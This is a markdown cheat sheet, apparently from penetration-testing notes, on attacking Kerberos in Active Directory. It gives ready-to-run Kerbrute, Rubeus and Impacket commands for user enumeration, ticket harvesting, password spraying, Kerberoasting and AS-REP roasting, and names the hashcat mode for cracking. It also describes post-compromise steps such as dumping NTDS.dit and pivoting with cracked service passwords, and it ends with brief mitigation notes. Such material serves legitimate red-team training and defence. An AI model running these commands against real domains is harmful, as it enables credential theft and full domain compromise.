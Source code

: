 # Attacking Kerberos

## Attack Privilege Requirements

* Kerbrute Enumeration - No domain access required&#x20;
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required&#x20;
* Silver Ticket - Service hash required&#x20;
* Skeleton Key - Full domain compromise (domain admin) required

## Enumeration w/ Kerbrute

Brute force user accounts from a domain controller using a supplied wordlist:

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/ Rubeus

Harvest for TGTs every 30 seconds:

```powershell
Rubeus.exe harvest /interval:30
```

## Brute-Forcing / Password-Spraying w/ Rubeus

{% hint style="info" %}
Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file
{% endhint %}

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

This returns .kirbi ticket (TGT)

{% hint style="warning" %}
Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.
{% endhint %}

## Kerberoasting w/ Rubeus & Impacket

### Rubeus

Dump the Kerberos hash of any kerberoastable users:

```powershell
Rubeus.exe kerberoast
```

Now you can take the hash of the service and crack it (Hashcat mode 13100 for TGS-REP)

### Impacket

Dump the hash:

```bash
impacket-GetUserSPNs controller.local/Machine1:Password1 -dc-ip 10.10.2.205 -request
```

### What can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not.&#x20;

If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit.&#x20;

If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.

### Kerberoasting Mitigation

* &#x20;Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* &#x20;Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting w/ Rubeus

Look for vulnerable users and then dump found vulnerable user hashes:

```powershell
Rubeus.exe asreproast
```

Next, crack it with tools such as hashcat

### AS-REP Roasting Mitigations

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

